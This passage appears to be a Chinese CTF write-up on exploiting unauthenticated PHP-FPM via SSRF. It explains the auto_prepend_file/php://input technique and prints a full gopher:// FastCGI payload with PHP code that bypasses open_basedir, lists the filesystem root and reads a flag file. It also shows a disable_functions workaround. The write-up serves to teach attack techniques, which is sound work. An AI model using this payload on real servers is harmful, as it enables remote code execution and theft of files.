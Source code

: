 在fpm某个版本之前，我们可以将SCRIPT_FILENAME的值指定为任意后缀文件，比如/etc/passwd；但后来，fpm的默认配置中增加了一个选项security.limit_extensions，只能以phpx结尾。由于这个配置项的限制，如果想利用PHP-FPM的未授权访问漏洞，首先就得找到一个已存在的PHP文件。

那么，为什么我们控制fastcgi协议通信的内容，就能执行任意PHP代码呢？

理论上当然是不可以的，即使我们能控制SCRIPT_FILENAME，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。

但PHP是一门强大的语言，PHP.INI中有两个有趣的配置项，auto_prepend_file和auto_append_file。

auto_prepend_file是告诉PHP，在执行目标文件之前，先包含auto_prepend_file中指定的文件；auto_append_file是告诉PHP，在执行完成目标文件后，包含auto_append_file指向的文件。

那么就有趣了，假设我们设置auto_prepend_file为php://input，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。（当然，还需要开启远程文件包含选项allow_url_include）

那么，我们怎么设置auto_prepend_file的值？

这又涉及到PHP-FPM的两个环境变量，PHP_VALUE和PHP_ADMIN_VALUE。这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项。（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）

所以，我们最后传入如下环境变量：
   
    {
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }

exp：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

最后构造gopher协议即可
payload：

    gopher://10.0.199.11:9000/_%01%01%F6%FD%00%08%00%00%00%01%00%00%00%00%00%00%01%04%F6%FD%01%DC%00%00%0E%03CONTENT_LENGTH203%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%17REQUEST_URI/var/www/html/index.php%01%04%F6%FD%00%00%00%00%01%05%F6%FD%00%CB%00%00%3C%3Fphp%20mkdir%28%27/tmp/fuck%27%29%3Bchdir%28%27/tmp/fuck%27%29%3Bini_set%28%27open_basedir%27%2C%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bini_set%28%27open_basedir%27%2C%27/%27%29%3Bprint_r%28scandir%28%27/%27%29%29%3Breadfile%28%27/flag%27%29%3B%3F%3E%01%05%F6%FD%00%00%00%00

里面还有一个知识点，open_basedir的绕过和disable_function的限制。
四个执行函数都被ban了，用readfile代替即可。
open_basedir绕过的姿势网上有很多，这里我用的是通过chdir()和ini_set()来进行跨路径访问，网上找姿势的时候记得这里题目是php7，有些老版本的是不行的。
参考链接：https://xz.aliyun.com/t/4720

好耶 学到许多